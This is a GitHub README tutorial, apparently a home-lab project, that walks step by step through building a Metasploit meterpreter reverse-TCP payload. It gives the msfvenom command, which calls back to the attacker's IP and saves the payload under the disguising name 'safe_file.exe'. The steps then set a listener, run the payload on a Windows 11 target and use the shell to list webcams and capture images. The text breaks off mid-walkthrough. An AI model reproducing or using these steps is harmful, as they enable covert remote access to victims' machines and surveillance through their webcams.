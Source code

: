<h1> Metasploit - Reverse Shell Tutorial</h1>

 ### [YouTube Demonstration](https://youtu.be/sh0AUBFdQQE) Easy Walkthrough

<h2>Description</h2>
🔒 Explore a project which practically demonstrates exploiting a Windows 11 vulnerability using Metasploit to gain webcam access and establish a reverse shell payload. This repository showcases the exploit code and demonstrates its execution step-by-step. Dive into the world of cybersecurity with this educational project. 
<br />
<br />
<h2>Languages and Utilities Used</h2>
 - <b>Metasploit</b>
<h2>Environments Used </h2>
- <b>Kali Linux</b> 
<br />
- <b>Windows 11</b> 
<br />



<h2>Program walk-through:</h2>

<p align="center">

Launch the Terminal: <br/>
<img src="https://i.imgur.com/1q88XYz.png" height="80%" width="80%" alt="ReverseShell Steps"/>
<br />
<br />
Find windows/x64/meterpreter_reverse_tcp:  <br/>
<img src="https://i.imgur.com/9OXqG5n.png" height="80%" width="80%" alt="ReverseShell Steps"/>
<br />
<br />
Create the payload using msfvenom. <br /> Commnad = "msfvenom -p windows/x64/meterpreter_reverse_tcp lhost= <your attacking machines IP address> lport=4242 (your preferred port) <br />-f exe -o safe_file.exe": <br/>
<img src="https://i.imgur.com/gYbl7xu.png" height="80%" width="80%" alt="ReverseShell Steps"/>
<br />
<br />
Launch metasploit framework & get set up using your desired Payload along with <br />your attacking IP address, Port & set the listener:
<img src="https://i.imgur.com/uFiqNxm.png" height="80%" width="80%" alt="ReverseShell Steps"/>
<br />
<br />
Transport your payload (safe_file) to the Target machine (Windows) & EXECUTE!:  <br/>
<img src="https://i.imgur.com/B1k9R6L.png" height="80%" width="80%" alt="ReverseShell Steps"/>
<br />
<br />
Metasploit Listener has caught the Reverseshell:  <br/>
<img src="https://i.imgur.com/wGdePzq.png" height="80%" width="80%" alt="ReverseShell Steps"/>
<br />
<br />
Once we have access to the targets machine, we can access all sorts of information. In this case, I will run the <br />command = "webcam_list" to see if there are any avaliable webcams we can capture from:  <br/>
<img src="https://i.imgur.com/DqHcUYk.png" height="80%" width="80%" alt="ReverseShell Steps"/>
<br />
There are two webcams we can access on the target machine. We will now run the command "webcam_snap -i 1" to <br />
select webcam 1 and capture an image:  <br/>